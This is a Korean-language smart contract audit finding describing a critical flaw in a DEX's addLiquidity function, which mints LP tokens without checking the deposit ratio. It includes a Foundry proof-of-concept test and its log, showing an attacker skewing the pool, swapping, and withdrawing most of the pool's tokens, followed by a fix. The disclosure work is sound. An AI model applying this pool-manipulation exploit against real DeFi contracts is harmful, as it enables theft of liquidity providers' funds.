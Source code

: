 # DEX - addLiquidity의 유동성 공급비 검증의 부재 및 부적절한 토큰 발급

## 설명

<aside>

### **키워드 : Vulnerability - 유동성 풀 조작 및 부적절한 토큰 발급**

### **심각도 : Critical**

`addLiquidity` 함수내부에서 두 토큰의 유동성 공급량 비율에 대한 검증이 이루어지지 않는다.
이를 악용하여 유동성 풀에 원하는 비율로 토큰을 공급하여 교환비를 조작할 수 있고, 공급량보다 많은 양의 LP토큰을 발급받을 수 있다.

</aside>

```solidity
// 같은 양을 넣더라도 넣는 시점의 상황(수수료 등등)을 고려해서 reward를 해줘야 함 -> totalSupply 값을 이용해서 LPT 계산
if (totalSupply() == 0) {
    LPTokenAmount = tokenXAmount * tokenYAmount;
} else {
    LPTokenAmount = (tokenXAmount * totalSupply()) / tokenXpool;
}
```

유동성 풀에 초기에 공급된 비율로 공급되는지 검사하고 이를 유동성 풀의 비율이 깨지지 않게 공급되도록 유도해야 한다. 하지만 이에 대한 검증이 이루어지지 않고 유동성 풀에 공급하게 된다.

그리고 이때 LP토큰 발행량은 tokenXAmount에 의존하여 발행된다. 따라서 유동성 풀의 비율을 임의로 조작할 수 있고 이는 곧 적절하지 못한 가격으로 토큰을 교환할 수 있으며 LP토큰의 발행량이 잘못 책정되는 요인이 된다. 실제 공급한 양보다 더 많은 가치의 LP 토큰이 발행될 수 있으며 이렇게 될 경우 유동성 제거나 교환을 통해 이득을 챙길 수 있다.

## PoC

```solidity
function testPOC() external {
        tokenX.transfer(address(0x01), 1 ether);
        tokenY.transfer(address(0x01), 100 ether);

        tokenX.transfer(address(0x02), 100 ether);
        tokenY.transfer(address(0x02), 102 ether);

        vm.startPrank(address(0x01));
        {
            tokenX.approve(address(dex), type(uint).max);
            tokenY.approve(address(dex), type(uint).max);
            uint256 LP1 = dex.addLiquidity(1 ether, 100 ether, 0);
        }
        vm.stopPrank();

        vm.startPrank(address(0x02));
        {
            tokenX.approve(address(dex), type(uint).max);
            tokenY.approve(address(dex), type(uint).max);
            uint256 lp = dex.addLiquidity(100 ether, 1 ether, 0);

            console.log(
                "before swap balance",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );
            uint res = dex.swap(0, 101 ether, 0);
            console.log(
                "after swap balance",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );

            dex.removeLiquidity(lp, 0, 0);
            console.log(
                "Attack result",
                tokenX.balanceOf(address(0x02)),
                tokenY.balanceOf(address(0x02))
            );
        }
        vm.stopPrank();
    }
```

```solidity
[PASS] testPOC() (gas: 401295)
Logs:
  before swap balance 0 101000000000000000000
  after swap balance 50474737368684342171 0
	Attack result 100499749874937468734 200000000000000000000
```

초기 유동성 풀에 A가 x토큰과 y토큰을 1:100 비율로 토큰을 공급한다. 이는 곧 실제 토큰의 가치에 따른 교환비라고 볼 수 있다.

이때 유저 B가 기존의 유동성 비율과는 무관하게 x토큰과 y토큰을 100:1 비율로 공급한다. 이때 유동성 풀에는 1:1 로 토큰이 존재한다. 이후 swap을 통해 y토큰을 x토큰으로 변환한다.

유동성풀의 비율이 본래 가치를 따르지 않고 잘못된 토큰 비율로 계산되어 변환된다.

이 결과로 본래 가치는 100:1 이지만 교환의 결과는 y토큰 100개가 x토큰 약 50개로 변환되는 것을 확인가능하다. 해당 DEX의 유동성 풀의 비율이 깨졌기 때문이다.

이후 LP토큰을 반환하여 유동성을 제거한다. 유저 B의 토큰 발행량은 x토큰 유동성 공급량에만 의존하기에 발행된 토큰의 100/101 만큼을 소유하고 있는 상태이다.

초기 자본은 x토큰 100 ether, y토큰 102 ether였지만, 교환 이후에는 dex에 존재하던 x토큰과 y토큰 대부분(100/101)을 탈취한 것을 확인할 수 있다.

## 파급력

Flash loan 등을 통해 유동성을 공급하여 유동성 비를 깨뜨린 후 실제 가치비가 아닌 잘못된 비율로 교환이 가능하며, 교환 후 유동성을 제거하면 공급량보다 많은 양을 반환받을 수 있기에 DEX에서 제공하는 가치를 신뢰할 수 없으며 DEX의 유동성을 탈취할 수 있다.

누군가가 위의 PoC 처럼 DEX의 유동성 풀에 버금가는 금액을 들고 나타난다면 유동성 풀의 모든 토큰을 탈취하는 것도 불가능한 일이 아닐 것이다.

특정 조건이 필요없어 공격 난이도가 낮음에도 불구하고 유동성 풀을 조작하여 이득을 취할 수 있기에 위험도는 매우 높다고 볼 수 있다.

## 해결 방안

```solidity
// 같은 양을 넣더라도 넣는 시점의 상황(수수료 등등)을 고려해서 reward를 해줘야 함 -> totalSupply 값을 이용해서 LPT 계산
if (totalSupply() == 0) {
    LPTokenAmount = tokenXAmount * tokenYAmount;
} else {
    require(
        tokenXAmount * reserveY == tokenYAmount * reserveX,
        "imbalance add liquidity"
    );
    LPTokenAmount = (tokenXAmount * totalSupply()) / tokenXpool;
}
```

초회 공급이 아닌 경우에는 공급비가 유동성 풀의 비율과 동일한지 검사해야 한다.
